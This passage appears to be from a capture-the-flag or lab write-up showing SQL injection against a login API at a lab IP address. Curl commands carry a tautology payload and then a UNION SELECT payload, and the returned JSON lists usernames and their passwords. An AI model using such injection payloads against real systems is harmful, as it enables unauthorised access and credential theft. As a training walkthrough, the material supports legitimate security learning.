 So we have SQLi. But the problem is we have to deal with 2 different build which means we have to execute the payload twice. First let's go for a basic payload

```bash
curl -X POST -d "username=test'OR TRUE --&password=test" http://10.10.57.252/api/login
```

```json
[
  [
    2, 
    "julias"
  ], 
  [
    4, 
    "linda"
  ], 
  [
    5, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    3, 
    "vincent"
  ]
]
```

Oooh! We got the users. Let's try to get passwords using UNION based Injection.

```bash
curl -X POST -d "username=test' UNION SELECT username,password FROM users--&password=test" http://10.10.57.252/api/login
```

And we got the colors.

```json
[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]
```
